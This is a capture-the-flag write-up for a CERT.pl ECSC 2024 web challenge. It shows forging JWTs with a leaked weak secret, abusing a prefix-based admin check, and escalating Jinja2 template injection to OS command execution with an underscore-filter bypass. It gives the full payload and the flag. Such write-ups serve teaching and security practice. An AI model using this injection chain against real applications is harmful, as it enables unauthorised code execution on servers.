



# Just Wonderful Turtles

> Look at all those wonderful turtles! The site is still in development, there is a profile functionality in beta, in which you will be able to select your favorite animal. Flag is at /flag.txt.
>
> [https://turtles.ecsc24.hack.cert.pl/](https://turtles.ecsc24.hack.cert.pl/)


## Solution
Log in as `guest:guest`. Find the information that the secret used to sign JWT tokens is `turtlerocks`. Sign the token for `admin` and go to the admin panel. There's an interesting comment in the HTML code there:
```
<!-- user profile beta version -->
<!-- to John - we have admin permission verification based on .startswith("admin"). For now it is okay, as there only guest user, but when we will roll out registration functionality, we have to change it! It is because user that would start with `admin` will be able to access our secret place! - yours trully, Jack -->
```
Indeed, signing the token for any user whose name starts with `admin` grants access to the admin panel. It turns out that this panel is susceptible to SSTI, as proven by signing a token for `admin{{ 7 * 7 }}`:



Unfortunately it turns out that some useful characters are forbidden:



`_` is one of the blacklisted characters, so we can't do funny things like `__globals__`... or can we? In Jinja, you can do `{{ a.b }}` `{{ a['b'] }}` and vice versa. We can just pass strings with underscores as request parameters and access them using `request.args.globals`. Now we can simply get the flag by signing a token for `admin{{ config[request.args.envvar][request.args.globals][request.args.import](request.args.os).popen(request.args.cmd).read() }}` and making a request to `https://turtles.ecsc24.hack.cert.pl/admin?envvar=from_envvar&globals=__globals__&import=import_string&os=os&cmd=cat+/flag.txt`:




## Flag
`ecsc24{turt13s_REa1lY_r0ck!}`
